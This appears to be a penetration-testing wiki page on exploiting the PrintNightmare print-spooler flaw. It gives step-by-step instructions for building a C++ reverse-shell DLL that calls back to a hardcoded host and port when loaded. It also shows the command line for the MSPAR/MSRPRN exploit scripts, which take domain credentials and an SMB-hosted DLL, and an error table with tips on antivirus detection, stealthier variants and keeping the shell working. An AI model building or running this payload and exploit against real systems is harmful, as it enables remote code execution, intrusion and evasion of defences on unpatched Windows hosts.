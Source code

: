 ### Custom simple C++ reverse shell example

1. Install C++ tools in visual studio.

2. Create new project with Dynamic-Link Libary template.

3. Download the `plain_revshell.cpp` file and paste the content into the existing template.

{{% attachments title="Related files" pattern="plain_revshell.cpp" %}}

4. Update the RHOST & RPORT on StartCallback

```cpp
BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason) {
    case DLL_PROCESS_ATTACH:
        StartCallback("172.16.0.137", 80); // <- update this
```

5. Build the release (ctrl+shift+b)

6. Place the DLL in the payloads folder

## Usage

```bash
python3 [MSPAR|MSRPRN|MSRPRN_nobrute].py 'domain/user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

There are 3 different version. All versions have been updated to support a custom driver/printername.

| Version        | Info                                                                                                                     | When to use                                                                                                             |
| -------------- | ------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------- |
| MSPAR          | Abuses MSPAR                                                                                                             | When ItWasAllADream says its vulnerable                                                                                 |
| MSRPRN         | Abuses MSRPRN                                                                                                            | When ItWasAllADream says its vulnerable                                                                                 |
| MSRPRN_nobrute | Abuses MSRPRN but does not brute force driver folders, see [this pull](https://github.com/cube0x0/CVE-2021-1675/pull/25) | When ItWasAllADream says its vulnerable but it does not seem to work and you tried everything listed in `Errors & tips` |

{{% notice warning %}}
Do note that MSRPRN_nobrute is more 'stealthy' (in the sense that there is less activity on disk) but less forgiving. Each run of the exploit needs a new printer name and dll name if they have not been removed.
{{% /notice %}}

### Errors & tips

| Error                                                                                                         | Solution                                                                                                                                                                                 |
| ------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                         | permissions on the file in the SMB share                                                                                                                                                 |
| RPRN SessionError: unknown error code: 0x180                                                                  | Enable SMB2Support                                                                                                                                                                       |
| RPRN SessionError: code: 0x2: - ERROR_FILE_NOT_FOUND - The system cannot fil the file specified.              | Typo in supplied DLL ?                                                                                                                                                                   |
| RPRN SessionError: code: 0xd8 - ERROR_EXE_MACHINE_TYPE_MISMATCH                                               | DLL is kaduk or wrong architect (x86 vs x64)                                                                                                                                             |
| RPRN SessionError: code 0xe1 - ERROR_VIRUS_INFECTED                                                           | AV caught you butt, try harder                                                                                                                                                           |
| RPRN SessionError: Unknown error code: 0x8001011b                                                             | Seems like the host is patched                                                                                                                                                           |
| RPRN SessionError: code: 0x43 ERROR_BAD_NET_NAME                                                              | Wrong share name used in printnightmare or typo in samba config                                                                                                                          |
| SMB SessionError: STATUS_PIPE_BROKEN                                                                          | Print spooler service crashed during payload execution. Restart the spooler if you got a shell (PowerShell -> `Restart-Service spooler`. CMD -> `net stop spooler && net start spooler`) |
| After killing the session the payload does not work a second time                                             | Always ensure the first thing you do is restart the spooler service upon a shell connect. If you did this, use a different printername. Otherwise ur fuk'd                               |